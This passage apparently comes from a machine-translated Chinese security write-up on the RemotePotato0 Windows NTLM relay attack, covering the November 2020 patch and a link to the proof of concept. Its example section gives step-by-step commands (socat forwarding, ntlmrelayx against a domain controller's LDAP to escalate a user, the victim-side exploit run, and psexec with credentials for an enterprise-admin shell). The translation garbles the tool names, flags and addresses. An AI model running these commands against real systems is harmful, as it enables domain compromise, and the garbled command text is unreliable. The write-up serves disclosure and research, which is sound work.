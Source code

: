 一个快速测试证明了它的工作！

![](img/db3775bfa90f4814c9d456a409d5843f.png)

几天后，微软发布了 2020 年 11 月的安全补丁，但它神奇地停止了工作。SMB 握手总是以无效的 NTLM 身份认证触发的通用“无效参数”结束。

![](img/eeb03308b0dcf82199ef192ed846051b.png)

经过一些测试，我们发现根本原因是消息完整性检查(MIC)。它似乎总是被检查，即使没有设置 NTLM“签名”标志[13]，因此改变 NTLM 消息导致签名不匹配。

**概念验证**

我们在这里发布了***remotepato 0***攻击的 POC:

https://github.com/antonioCoco/RemotePotato0

**例子**

攻击者机器(192.168.83.130)

**sudo socat TCP-LISTEN:135，fork，reuse addr TCP:192 . 168 . 83 . 131:9998&
sudo ntlmrelayx . py-t LDAP://192 . 168 . 83 . 135–no-wcf-server–upgrade-user winrm _ user _ 1**

受害者机器(192.168.83.131)

**。\ remotepotato 0 . exe-r 192 . 168 . 83 . 130-p 9998**

受害者域控制器(192.168.83.135)

享受 shell(例如 psexec)作为域控制器的企业管理员

**psexec . py ' SPLINTER/winrm _ user _ 1:password 111！@192.168.83.135'**

**演示**
